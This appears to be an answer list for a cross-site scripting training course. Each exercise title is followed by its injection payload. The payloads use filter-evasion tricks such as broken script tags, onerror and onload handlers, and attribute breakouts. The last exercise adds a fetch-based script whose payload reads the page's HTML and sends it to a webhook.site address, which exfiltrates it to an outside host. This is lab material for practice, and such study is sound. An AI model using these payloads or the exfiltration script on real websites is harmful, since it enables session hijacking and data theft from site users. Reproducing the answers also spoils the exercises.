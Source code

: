 Exercise 1 – A Truly Disruptive Startup
        <script>success()</script>
Exercise 2 – No Script Allowed
        </script><script>success()</script>
Exercise 3 – One More Time, Like You Mean It
        <img src=1 href=1 onerror="java:success()"></img> 
Exercise 4 – An Open-and-Shut Case
        </scrip</script>t><img src =q onerror=success()>
Exercise 5 – Time to Mix Things Up
        </scrip</script>t><img src =q onerror=success()>
Exercise 6 – A Picture is Worth a Thousand Words
        <image src =q onerror=success()>
Exercise 7 – Between a Rock And a Hard Place
        <button onClick="success()">Submit</button>
Exercise 8 – Angle of Death
        <!--<img src="--><img src=x onerror=javascript:success()//">
Exercise 10 – In the Wrong Place at the Wrong Time
        "<img src=/ onerror="success()" />
Exercise 11 – You Can't Win 'em All
        "" onerror="success()"
Exercise 12 – When All is Said and Done
        ' onload=success()
Exercise 14 – Here Today and Gone Tomorrow
        http://caloogle.xyz:4120/search?q=%27+onload%3D%27success%28%29%27
Exercise 15 – The Early Bird Catches the Worm
        </script> <img src=/ onerror=success() /> <script>
Exercise 16 – Tying Up Loose Ends
        <<<///scrip<<//script>>t>>><img src =q onerror=success()>
Exercise 17 – Take a Page Out of Their Book
	function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')

